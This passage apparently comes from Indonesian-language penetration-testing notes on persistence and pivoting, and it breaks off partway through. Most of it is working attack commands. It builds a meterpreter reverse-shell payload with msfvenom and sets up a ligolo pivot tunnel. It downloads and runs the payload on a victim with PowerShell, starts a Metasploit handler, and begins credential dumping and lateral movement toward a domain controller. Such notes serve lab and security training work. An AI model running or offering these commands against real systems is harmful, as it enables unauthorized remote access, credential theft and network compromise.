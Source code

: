 ## Teknik Persisten

### Upload Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.98.15 lport=1234 -f exe -o rev.exe
```

### Di Pivot Machine

```bash
ssh privilege@192.168.80.10
./agent -connect 10.10.200.23:11601 -ignore-cert
```

### Di Attacker:

```bash
ligolo-proxy -selfcert
start
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4321
```

### Upload di Victim

```powershell
powershell
Invoke-WebRequest http://192.168.98.15:1237/payloads.exe -OutFile C:\Users\corpmngr\Downloads\payloads.exe
cd C:\Users\corpmngr\Downloads
```

### Handler di Kali

```bash
msfconsole
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4321
set payload windows/x64/meterpreter/reverse_tcp
run
```

### Jalankan Payload di Victim

```powershell
.\payloads.exe
```

---

### Lateral Movement dan Privilege Escalation Parent Domain

1. Cek user dengan `creds_all` via meterpreter.
2. Cari DC info:
